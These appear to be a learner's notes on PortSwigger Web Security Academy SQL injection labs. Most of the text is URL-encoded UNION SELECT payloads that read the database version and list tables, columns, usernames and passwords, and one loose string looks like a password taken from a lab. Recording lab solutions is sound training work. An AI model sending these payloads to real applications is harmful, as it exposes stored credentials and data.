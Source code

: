 https://0a4900b804831ea8c0e031d2002900da.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20banner,%20null%20FROM%20v$version%20--%20-


### SQL injection attack, querying the database type and version on MySQL and Microsoft

![](https://i.imgur.com/TkmqsHX.png)
![](https://i.imgur.com/eV5Wi1u.png)

### SQL injection attack, listing the database contents on non-Oracle databases
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

https://0a8a002803386db4c0ef4c9e008a00f6.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20SELECT%20%27header%27,table_name%20FROM%20information_schema.tables--
![](https://i.imgur.com/hYA6nta.png)
![](https://i.imgur.com/G3w9Xuh.png)
![](https://i.imgur.com/hn7H7mm.png)


https://0a8a002803386db4c0ef4c9e008a00f6.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20SELECT%20%27header%27,column_name%20FROM%20information_schema.columns%20WHERE%20table_name=%27users_yunpot%27--
![](https://i.imgur.com/WrrBTvL.png)

https://0a8a002803386db4c0ef4c9e008a00f6.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20SELECT%20%27header%27,username_bysgbs%20FROM%20users_yunpot--
![](https://i.imgur.com/NjxDQqu.png)

https://0a8a002803386db4c0ef4c9e008a00f6.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20SELECT%20%27header%27,password_sndgby%20FROM%20users_yunpot--
![](https://i.imgur.com/6o0qSUN.png)

https://0a8a002803386db4c0ef4c9e008a00f6.web-security-academy.net/filter?category=Lifestyle%27%20UNION%20SELECT%20%27header%27,username_bysgbs||%27:%27||password_sndgby%20FROM%20users_yunpot--

![](https://i.imgur.com/UjGwY0B.png)

x92yb6g8bn1pbzmj24n7

### SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

https://0ad6005e03b6aea8c1bbf6f80048000f.web-security-academy.net/filter?category=category=Lifestyle%27%20UNION%20SELECT%20%27header%27,table_name%20FROM%20all_tables--
